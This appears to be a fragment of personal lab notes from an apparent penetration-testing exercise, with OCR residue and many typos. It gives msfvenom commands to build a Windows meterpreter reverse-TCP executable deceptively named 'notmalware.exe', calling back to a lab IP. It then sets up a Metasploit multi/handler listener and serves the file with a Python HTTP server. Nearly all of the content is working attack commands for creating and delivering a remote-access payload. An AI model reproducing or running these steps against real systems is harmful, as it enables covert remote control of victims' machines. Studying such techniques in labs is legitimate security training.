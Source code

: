 `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.114.10 LPORT=4444 -f exe -o notmalware.exe`

p specifies the type of payload and sicne we using windows wetyoe windoes
![alt text](image-66.png)

![alt text](image-67.png)

Setting up meterpreter listener

`sf6 > use exploit/multi/handler `
`set PAYLOAD windows/meterpreter/reverse_tcp`

![alt text](image-68.png)

After all and done we need to set our Machine as a server to start listengin on and we will use a python in this case
`python3 -m http.server 8000`
